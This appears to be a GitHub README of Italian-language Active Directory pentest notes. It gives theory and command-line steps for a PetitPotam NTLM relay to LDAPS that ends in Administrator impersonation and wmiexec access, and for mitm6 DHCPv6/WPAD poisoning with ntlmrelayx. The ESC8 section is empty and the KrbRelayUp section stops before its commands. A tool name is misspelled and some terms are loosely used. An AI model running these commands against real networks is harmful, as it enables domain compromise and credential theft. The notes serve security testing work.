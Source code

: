 # ADTech

Appunti, metodologia di penetration test per il rilevamento di anomalie, elenco di strumenti, script e comandi di Windows che trovo utili durante INPT/AS/RED TEAMING.

## Tabelle contenuti

- [Attacco 1. PetitPotam - NTLMv1 relay attack](#Attacco-1-PetitPotam-NTLMv1-relay-attack-)
- [Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6](#Attacco-2-Enumerazione-AD-da-non-autenticato-sfruttando-MITM6-)
- [Attacco 3. Sfruttamento ESC 8 ADCS](#Attacco-3-Sfruttamento-ESC-8-ADCS-)
- [Attacco 4. KrbRelayUp Kerberos Relay Attack with RBCD method](#Attacco-4-KrbRelayUp-Kerberos-Relay-Attack-with-RBCD-method-)
----------------
### Attacco 1. PetitPotam - NTLMv1 relay attack 🔐🕸🧑🏼‍💻

#### Prerequisiti

➤ PetitPotam sul Domain Controller

➤ Uso di NTLMv1 come protocollo di autenticazione (lo vedi con un Responder ad esempio)

➤ Almeno 2 Domain Controller

#### Proof of Concept

➤ Set-up NTLM relay verso il servizio LDAP su l'altro Domain Controller

```
Terminale 1:

python3 ntlmrealyx.py -t ldaps://<DC2 IP> --remove-mic -smb2support --delegate-access
```

➤ Exploit della vulnerabilità PetitPotam, sfruttando il protocollo MS-EFSRPC per fare una chiamata API che triggera il target (DC1) ad autenticarsi alla macchina controllata dall'attaccante. Tale attacco funziona senza avere una utenza di dominio.

```
Terminale 2:

python3 PetitPotam.py -d <domain> <IP Attacker> <DC1 IP>
```

➤ La macchina attaccante riceve NTLM e lo inoltra al secondo DC tramite LDAP. Nello specifico l'attacco porta alla creazione di un nuovo computer macchina che gli viene assegnata la delega di impersonificare qualsiasi utente dentro DC1

➤ Viene forgiato un Silver Ticket per impersonificare un Amminsitratore dentro DC1. Ti salva il TGS in Administrator.ccache

```
python3 getST.py -spn cifs/<FQDN DC1> -impersonate Administrator <domain>/'<username computer macchina creato>'
```

➤ Forgiato il ticket è possibile accedere a DC1

```
KRB5CCNAME=Administrator.ccache python3 wmiexec.py -k -no-pass @FQDN DC1 
```

-----------------
#### Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6 🕵

#### Teoria

➤ Per impostazione predefinita, tutte le versioni di Windows da Windows Vista in poi (incluso le varianti server) hanno IPv6 abilitato e lo preferiscono rispetto a IPv4. 

➤ L'attacco è stato eseguito avvelenando le risposte DHCPv6 alle richieste legittime, assegnando alla vittima un indirizzo IPv6 nell'intervallo link-local e configurando contemporaneamente l'IP dell'attaccante come il server DNS IPv6 predefinito. A causa della preferenza di Windows per i protocolli IP, il server DNS IPv6 sarà preferito rispetto al server DNS IPv4. Un client Windows utilizzerà il server DNS IPv6 malevolo per interrogare sia i record A (IPv4) che AAAA (IPv6), e il suo traffico sarà reindirizzato a un endpoint specificato dall'attaccante. A questo punto, l'attacco è in grado di intercettare gli hash NetNTLMv2 inviati in risposta dai client vittima.
 
➤ Quando la macchina di un utente malintenzionato sta intercettando il traffico IPv6, può intercettare le richieste di autenticazione, intercettare le credenziali NTLM e trasmetterle utilizzando ntlmrelayx a un controller di dominio. Se la richiesta di autenticazione inoltrata era da un amministratore di dominio, l'utente malintenzionato può quindi utilizzare tale credenziali NTLM per creare un account utente per se stessi sul dominio

#### Prerequisiti

➤ Ci deve essere IPV6 attivo.

#### Proof of Concept

```
Terminale 1:

sudo mitm6 -i {Network Interface}
```

➤ Imposteremo ntlmrelayx per inoltrare le richieste a LDAPS su un controller di dominio, inviare al client un file WPAD falso e scaricare automaticamente tutte le informazioni che troviamo in una cartella chiamata "loot" sul sistema locale. In sintesi, l'attacco basato su NTLM Relay con falso WPAD è una strategia completa per intercettare e catturare informazioni sensibili come gli hash NTLM (i client, seguendo il meccanismo di auto-configurazione del proxy tramite WPAD, inizieranno a instradare il loro traffico attraverso il proxy controllato dall'attaccante) e potrebbe anche permettere l'enumerazione di Active Directory attraverso il traffico LDAP. 

```
Terminale 2:

impacket-ntlmrelayx -6 -t ldaps://<DC-IP> -wh fakewpad.adlab.com -l loot
```

-----------------
#### Attacco 3. Sfruttamento ESC 8 ADCS 🔓🧑🏼‍💻

-----------------
#### Attacco 4. KrbRelayUp Kerberos Relay Attack with RBCD method 🔓🧑🏼‍💻

#### Teoria
KrbRelayUp è un wrapper che avvolge alcune delle funzionalità di Rubeus e KrbRelay (insieme ad alcuni altri strumenti) al fine di semplificare l'abuso della seguente primitiva di attacco:

➤ Creazione di un nuovo account macchina (New-MachineAccount con un SPN impostato), nell' attributo msDS-AllowedToActOnBehalfOfOtherIdentity
➤ Coercizione dell'autenticazione dell'account macchina locale (utilizzando KrbRelay)
➤ Relay Kerberos a LDAP (utilizzando KrbRelay)
➤ Aggiunta di privilegi basati su risorse vincolati (RBCD) e ottenimento di un privilegiato Silver Ticket (ST) per la macchina locale (utilizzando Rubeus)
➤ Utilizzo di detto Silver Ticket (ST) per autenticarsi presso il Gestore servizi locali e creare un nuovo servizio come NT/SYSTEM (utilizzando SCMUACBypass)

Essenzialmente, si tratta di un'elevazione universale dei privilegi locali non correggibile in ambienti di dominio Windows in cui la firma LDAP non è signing (impostazioni predefinite).

#### Prerequisiti
➤ LDAP not signing (Impostazione predefinita)

#### Proof of Concept
